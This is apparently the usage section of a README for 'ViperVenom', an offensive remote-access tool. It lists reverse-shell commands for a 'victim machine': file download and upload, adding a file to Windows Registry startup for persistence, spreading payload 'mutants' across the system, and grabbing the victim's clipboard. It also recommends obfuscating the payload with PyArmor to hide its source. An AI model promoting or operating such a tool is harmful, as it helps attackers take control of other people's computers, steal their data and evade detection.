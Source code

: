```
$ shell
```
Get a full interactive reverse shell from your target machine + special commands

### Special Shell Commands
After using the "shell" command, other than having a reverse shell, this reverse shell comes with additional commands like file download and upload.

For gaining shell (see a few lines above)
```
$ shell
```
After you got a shell and was able to "cd" around and test it to see if it works, try the additional commands:
```
$ download {file}
```
Download a file from the target machine to the attacker machine (you), use this command after gaining a shell access only.
```
$ upload {file}
```
Upload the file from your machine to the target machine, use this command after gaining a shell access only.

```
$ startup {file}
```
Adds a file to Windows Registry startup. Recommended for persistence, use this command after gaining a shell access only.
```
$ terminate
```
Terminates the shell session, use this command after gaining a shell access only.
```
$ merciless {file}
```
Merciless Technology creates mutants of ViperVenom payloads across the system (BETA), use this command after gaining a shell access only.
```
clipboard
```
This command will grab the victim machine's clipboard, use this command after gaining a shell access only.
## Recommeneded!
As we are developing Revise7's ViperVenom, Revise7 tested [pyarmor](https://pypi.org/project/pyarmor/),
PyArmor is a command-line tool used to obfuscate python scripts, so you can encode your client file so the source code won't be shown.
```
$ pip3 install pyarmor
$ cd vipervenom-main
$ pyarmor obfuscate <payload_name>.py
```
Thanks to PyArmor developers for the ability to encode Python code without breaking the program, kudos to them!
Another option is to use the setup.py to build an executable so the script will work on every machine without having Python installed
